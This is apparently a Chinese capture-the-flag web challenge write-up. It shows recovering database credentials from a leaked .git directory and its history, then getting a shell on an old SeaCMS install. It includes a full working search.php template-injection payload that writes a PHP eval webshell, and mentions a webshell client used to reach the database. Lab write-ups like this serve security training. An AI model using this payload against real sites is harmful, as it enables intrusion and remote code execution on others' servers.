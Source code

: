 ### 题目描述
only d0g3er can see flag   
tips：文件泄露


### 配置
数据库      mysql5.6  
web引擎 	Apache2.4  
PHP版本 	5.6.30  
开放端口    80/22/888  

### write up  
解题说明：网站连接数据库的账号权限低不能访问flag表，在git文件的另一个分支only_d0g3er_can_see有高权限用户d0g3，访问到flag数据库中查看到账户密码后，只能通过低版本seacms的前台getshell连接数据库
- 根据提示扫网站目录发现.git文件  
- githack下载git文件   
- git check only_d0g3er_can_see
切换到only_d0g3er_can_see分支  
- git check 4d9e58681c8 ，cat data/common.inc.php  
查看历史修改版本，得到有查看flag表权限的用户d0g3密码  
- 利用seacms前台getshell  
 攻击点：search.php   
 payload：searchtype=5&searchword={if{searchpage:year}&year=:e{searchpage:area}}&area=v{searchpage:letter}&letter=al{searchpage:lang}&yuyan=(join{searchpage:jq}&jq=($_P{searchpage:ver}&&ver=OST[9]))&9[]=file_put_contents('shell.php','<&9[]=?php%20@eval($_POST[jjj])?>');;

- 连菜刀登录数据库获得flag:D0g3{This_is_real_flag}




